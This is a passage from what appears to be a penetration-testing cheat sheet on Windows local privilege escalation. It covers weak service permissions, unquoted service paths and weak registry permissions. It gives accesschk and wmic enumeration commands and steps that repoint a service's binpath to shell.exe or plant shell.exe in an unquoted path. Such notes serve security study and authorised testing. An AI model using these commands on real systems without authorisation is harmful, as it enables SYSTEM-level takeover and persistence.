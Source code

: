 ??? info "info"
    If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.
    Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!”

Enumerate for vulnerable services (Can change Authenticated Users to other group)

```powershell
C:\Cas> .\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
```

Enumerate for user permisson on a service

```powershell
C:\Cas> .\accesschk.exe /accepteula -ucqv <service_name>
```

Then, change service config

```powershell
C:\Cas> sc config <service_name> binpath= "C:\Cas\shell.exe" 
```

#### Unquoted Service Path

??? info "info"
    In Windows, if the service is not enclosed within quotes and is having spaces, it would handle the space as a break and pass the rest of the service path as an argument.
    If we have permission to write a custom file to wither c:\\ or c:\\Program Files or c:\\Program Files\\Unquoted Path Service, then we can exploit this vulnerability to gain elevated privileges.

Enumerate for unquoted service paths

```powershell
C:\Cas> wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\" |findstr /i /v """
```

Check user permission on folders:

```powershell
C:\Cas> .\accesschk.exe /accepteula -uwdqs users "C:\Program Files\Unquoted Path Service\Common Scripts"
```

```powershell
C:\Cas> copy shell.exe "C:\Program Files\Unquoted Path Service\Common.exe" 
```

#### Weak Registry Permissions

??? info "info"
    The Windows registry stores entries for each service.  
    Since registry entries can have ACLs(access control lists), if the ACL is misconfigured, it may be possible to modify a service’s configuration even if we cannot modify the service directly.
    If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then we can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then our program will execute, allowing the us to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).
